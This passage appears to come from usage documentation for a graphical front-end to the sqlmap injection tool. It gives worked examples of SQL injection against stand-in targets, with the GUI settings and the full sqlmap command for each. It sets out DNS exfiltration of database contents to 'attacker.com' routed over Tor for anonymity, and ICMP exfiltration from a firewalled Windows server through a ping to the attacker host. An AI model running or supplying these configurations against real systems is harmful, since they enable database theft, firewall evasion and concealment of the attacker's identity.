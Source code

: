 **GUI Configuration:**
```
Target Tab:
├── URL: http://firewalled-target.com/page.php?id=1
└── Method: GET

Miscellaneous Tab:
├── DNS Domain: attacker.com
├── 3rd Level Domain: ✓
└── Ignore Proxy: ✓

Detection Tab:
├── Level: 3
├── Risk: 2
├── Techniques: T (Time-based only)
└── Time Delay: 2

Request Tab:
├── Timeout: 30
├── Delay: 1
└── Tor: ✓ (for additional anonymity)
```

**Generated Command:**
```bash
sqlmap -u "http://firewalled-target.com/page.php?id=1" --dns-domain=attacker.com --3rd-level-domain --ignore-proxy --level=3 --risk=2 --technique=T --time-sec=2 --timeout=30 --delay=1 --tor
```

### Example 5: ICMP Exfiltration (Windows)
**Scenario:** Extract data through ICMP packets on Windows systems

**Target Information:**
- URL: `http://windows-target.com/page.php?id=1`
- OS: Windows Server
- Firewall: Blocks most outbound traffic but allows ICMP

**GUI Configuration:**
```
Target Tab:
├── URL: http://windows-target.com/page.php?id=1
└── Method: GET

Miscellaneous Tab:
├── ICMP Exfiltration: ✓
└── ICMP Sleep: 1

Detection Tab:
├── Level: 4
├── Risk: 2
├── Techniques: T
└── Time Delay: 1

OS Access Tab:
├── OS Command: ping -n 1 attacker.com
└── ICMP Exfil: ✓
```
